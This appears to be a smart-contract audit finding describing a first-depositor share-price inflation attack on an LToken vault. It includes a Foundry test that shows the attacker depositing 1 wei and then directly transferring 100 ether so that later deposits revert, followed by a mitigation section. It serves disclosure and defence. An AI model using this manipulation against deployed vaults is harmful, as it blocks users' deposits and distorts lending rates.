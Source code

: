 grhkm
# First user can set arbitrary price, which may prevent some users to deposit

## [M] First user can set arbitrary price, which may prevent some users to deposit
### Problem
First user can set share price by sending tokens to the system externally, price can be very high. As result a lot of users will not be able to deposit.
And borrowers will have smaller amount to borrow and higher interest rate to pay, because amount of underlying asset is smaller, because less amount of people are able to deposit.

### Proof of Concept
```solidity
pragma solidity 0.8.15;

import {TestBase} from "../utils/TestBase.sol";
import "forge-std/console.sol";

contract ProtocolTest is TestBase {
    address public alice = cheats.addr(1);
    address public bob = cheats.addr(2);

    function setUp() public {
        setupContracts();
    }

    function testSharePriceManipulation() public{
        erc20.mint(address(alice), 1000 ether);
        erc20.mint(address(bob), 1000 ether);
        cheats.prank(alice);
        erc20.approve(address(lErc20), type(uint256).max);
        cheats.prank(bob);
        erc20.approve(address(lErc20), type(uint256).max);

        cheats.startPrank(alice);
        lErc20.deposit(1, alice); // 1 share costs 1 wei now
        assertEq(lErc20.previewRedeem(1), 1);

        erc20.transfer(address(lErc20), 100 ether); // 1 share costs 100 ether + 1 wei now
        cheats.stopPrank();

        assertEq(lErc20.previewDeposit(80 ether), 0);
        assertEq(lErc20.previewDeposit(100 ether + 1), 1);

        //bob cannot deposit below share price which can be very expensive
        cheats.expectRevert("ZERO_SHARES");
        cheats.prank(bob);
        lErc20.deposit(80 ether, bob);
    }
```

### Mitigation
Force users to deposit at least some amount in the LToken vault .
That way the amount the attacker will need to ERC20.transfer to the system will be at least X * 1e18 instead of X which is unrealistic.
An alternative is to require only the first depositor to freeze big enough initial amount of liquidity. This approach has been used long enough by various projects, for example in Uniswap V2

